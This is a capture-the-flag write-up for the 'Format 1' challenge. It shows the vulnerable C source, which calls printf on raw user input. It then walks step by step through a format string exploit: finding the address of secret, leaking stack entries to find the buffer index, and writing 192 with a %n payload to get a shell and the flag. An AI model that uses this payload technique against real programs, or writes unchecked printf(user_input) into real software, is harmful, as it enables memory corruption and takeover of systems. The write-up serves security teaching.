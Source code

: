 ### Solved by z0rex

"Format 1" was a binary challenge worth 100 points.

> This program is vulnerable to a format string attack! Try supplying a format 
> string to overwrite a global variable and get a shell! You can exploit the
> binary on our shell server at /problems/format1/. Download the binary here, 
> and source code is available here

We're given the source code, so let's have a peak.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int secret = 0;

void give_shell()
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv)
{
    char buf[128];
    memset(buf, 0, sizeof(buf));
    fgets(buf, 128, stdin);
    printf(buf);

    if (secret == 192)
    {
        give_shell();
    }
    else
    {
        printf("Sorry, secret = %d\n", secret);
    }

    return 0;
}
```

From this, it's easy to see what we need to do to trigger the `give_shell()`
function. We need to change the value of `secret` from 0 to 192.

```c
int secret = 0
.
.
.
if (secret == 192)
{
    give_shell();
}
```

Next I ran the binary normally just to see its behavior.

```
# ./format1 
123
123
Sorry, secret = 0
```

With basic format strings, modifying values stored in an address is a fairly
trivial task. All you need to know is the index of your buffer, the address to
write to and what to write.

I started off by using `objdump` to get the address of `secret`.

```
# objdump -t format1 | grep secret
0804a040 g     O .bss   00000004              secret
```

Then I moved on to find the correct index.

```
# python2 -c 'print "A"*4 + "-%x-%x-%x-%x-%x-%x-%x"' | ./format1 
AAAA-80-f7785580-ffb064f4-ffb063fe-1-c2-41414141
Sorry, secret = 0
```

Here we can see that the string AAAA (41414141) repeats at index 7. 

This is all I need to write a simple exploit, which looks like this
`"\x40\xa0\x04\x08%188x%7$n"`.

The first four bytes `\x40\xa0\x04\x08` is the address of `secret` reversed so
it matches little endian.

The last part `%188x%7$n` writes 4+188 bytes to whatever is on index 7, which in
our case now is the address of secret.

```
# python2 -c 'print "\x40\xa0\x04\x08%188x%7$n"' | ./format1 
@�                                                                                                                                                                                          80
sh-4.3# exit
```

Running it locally exited right away. So I tried on the challenge server

```
team24254@shell:/problems/format1$ (python2 -c 'print "\x40\xa0\x04\x08%188x%7$n"';cat) | ./format1
@�                                                                                                                                                                                          80
$
```

Success. It's not exiting. Let's get our flag.

```
cat flag.txt

[2]+  Stopped                 ( python2 -c 'print "\x40\xa0\x04\x08%188x%7$n"'; cat ) | ./format1
team24254@shell:/problems/format1$ is_%n_used_for_anything_besides_this
```

Flag: `is_%n_used_for_anything_besides_this`